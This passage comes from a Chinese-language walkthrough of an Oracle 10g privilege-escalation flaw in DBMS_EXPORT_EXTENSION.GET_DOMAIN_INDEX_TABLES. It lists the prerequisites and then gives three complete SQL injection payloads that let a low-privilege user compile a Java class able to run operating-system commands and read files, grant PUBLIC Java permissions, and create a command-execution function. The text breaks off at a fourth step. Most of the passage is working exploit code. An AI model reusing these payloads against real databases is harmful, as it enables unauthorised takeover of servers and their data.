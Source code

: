 ✔ 0x03 oracle 的 DBMS_EXPORT_EXTENSION() 漏洞  

---------------------------------------------

#### 3.1 前提  

1. 拥有一个有 create session 权限的账户

2.DBMS_EXPORT_EXTENSION() 漏洞存在

DBMS_EXPORT_EXTENSION() 中的 GET_DOMAIN_INDEX_TABLES() 函数是以 sys 权限定义，当其被低权限用户调用时将会以 sys 权限执行。

#### 3.2 开淦

数据库为 oracle10g 的 `10.2.0.1`版本。

创建一个低权限用户 test

![](https://mmbiz.qpic.cn/mmbiz_png/4bw9lT0keH2ibyW5icblcibTtWjAaXSFqmZuicWe6wDGx9rDtLkFLbSjo3PxCVv1HNzjrh5HpjLmrjowDF4K8xibarA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/4bw9lT0keH2ibyW5icblcibTtWjAaXSFqmZSibfaSRrnZeqXj1IibF0LiadLICATVoNWjvFk5xic49ewGRx7SvE1r3QAg/640?wx_fmt=png)

本人不擅长 oracle，这里直接使用了 redn3ck 大佬的 payload。

1. 创建 java 代码 LinxUtil：

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args){try{BufferedReader myReader= new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}public static String readFile(String filename){try{BufferedReader myReader= new BufferedReader(new FileReader(filename)); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'''';END;'';END;--','SYS',0,'1',0) from dual
```

2. 赋予 public 用户 java 权限：

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission(''''''''PUBLIC'''''''', ''''''''SYS:java.io.FilePermission'''''''',''''''''<>'''''''', ''''''''execute'''''''');end;'''';END;'';END;--','SYS',0,'1',0) from dual
```

3. 创建系统命令调用函数 LinxRunCMD：

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name''''''''LinxUtil.runCMD(java.lang.String) return String'''''''';'''';END;'';END;--','SYS',0,'1',0) from dual
```

4. 将 LinxRunCMD 函数执行权限赋予 public 用户：
